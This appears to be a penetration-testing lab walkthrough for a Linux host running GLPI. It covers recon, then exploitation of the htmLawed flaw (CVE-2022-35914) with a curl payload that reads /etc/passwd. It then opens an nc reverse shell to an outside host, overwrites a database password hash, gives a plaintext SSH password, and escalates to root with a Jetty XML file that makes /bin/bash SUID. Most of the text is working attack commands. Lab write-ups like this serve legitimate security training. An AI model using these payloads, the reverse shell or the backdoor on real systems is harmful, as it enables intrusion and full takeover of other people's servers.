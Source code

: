 _____

>[!INFO]
> IP=192.168.180.242
> Linux
# Nmap
|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Authentication - GLPI
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## 80 - http

```python
whatweb http://$IP
http://192.168.180.242[200 OK] Apache[2.4.41], Cookies[glpi_8ac3914e6055f1dc4d1023c9bbf5ce82], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], HttpOnly[glpi_8ac3914e6055f1dc4d1023c9bbf5ce82], IP[192.168.180.242], PasswordField[fieldb65bb8c2b819ca], PoweredBy[Teclib], Script[text/javascript], Title[Authentication - GLPI], X-UA-Compatible[IE=edge]
```

![[Pasted image 20240201132151.png]]

## Fuzzing

```txt
/index.php/           (Status: 200) [Size: 9017]
/files/               (Status: 200) [Size: 3480]
/public/              (Status: 200) [Size: 932]
/pics/                (Status: 200) [Size: 23670]
/bin/                 (Status: 200) [Size: 933]
/plugins/             (Status: 200) [Size: 944]
/css/                 (Status: 200) [Size: 1923]
/ajax/                (Status: 200) [Size: 0]
/install/             (Status: 200) [Size: 0]
/lib/                 (Status: 200) [Size: 0]
/status.php/          (Status: 200) [Size: 115]
/src/                 (Status: 200) [Size: 133257]
/front/               (Status: 200) [Size: 0]
/js/                  (Status: 200) [Size: 8070]
/marketplace/         (Status: 200) [Size: 952]
/vendor/              (Status: 200) [Size: 7847]
/config/              (Status: 200) [Size: 1158]
/inc/                 (Status: 200) [Size: 0]
/sound/               (Status: 200) [Size: 2358]
/templates/           (Status: 200) [Size: 3286]
/locales/             (Status: 200) [Size: 24760]
/phpinfo.php/         (Status: 200) [Size: 79778]
```

https://github.com/glpi-project/glpi


https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/


```bash
array_map(call_user_func, "passthru", "cat /etc/passwd")
```

```bash
sid=bhd7v2653r006qv4b3k2omhqng&text=call_user_func&hhook=array_map&hexec=passthru&spec[0]=&spec[1]=cat+/etc/passwd
```


```bash
curl -s -d 'sid=bhd7v2653r006qv4b3k2omhqng&text=call_user_func&hhook=array_map&hexec=passthru&spec[0]=&spec[1]=cat+/etc/passwd' -b 'sid=bhd7v2653r006qv4b3k2omhqng' http://192.168.180.242/vendor/htmlawed/htmlawed/htmLawedTest.php
```


### revshell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.248 80 >/tmp/f
```

# PrivEsc

glpi:glpi_db_password

```sql
select name, password from glpi_users where name = 'betty';
```

`betty:$2y$10$jG8/feTYsguxsnBqRG6.judCDSNHY4it8SgBTAHig9pMkfmMl9CFa`

https://bcrypt.online/

```sql
update glpi_users SET password = '$2y$10$mHWWZ3uR3Mo5Q/FSFrEZHOm69rxKLPXW0T/z9y6XaJ6Dy9PqCJ6n.' where name = 'betty';
```


Login as betty:dani


![[Pasted image 20240201153441.png]]

## ssh

```bash
betty@$IP 
SnowboardSkateboardRoller234
```

`
## root

```bash
netstat -tulpn
```

![[Pasted image 20240201153811.png]]


```bash
ssh -L 1234:localhost:8080 betty@192.168.180.242
```

![[Pasted image 20240201155957.png]]

### Eclipse RCE

![[Pasted image 20240201160249.png]]

```bash
echo "chmod +s /bin/bash" > /tmp/root.sh
chmod +x /tmp/root.sh
```

```bash
cd /opt/jetty/jetty-base/webapps
nano rce.xml
```

```xml
<?xml version="1.0"?>  
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">  
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">  
    <Call class="java.lang.Runtime" name="getRuntime">  
        <Call name="exec">  
            <Arg>  
                <Array type="String">  
                    <Item>/tmp/root.sh</Item>  
                </Array>  
            </Arg>  
        </Call>  
    </Call>  
</Configure>
```




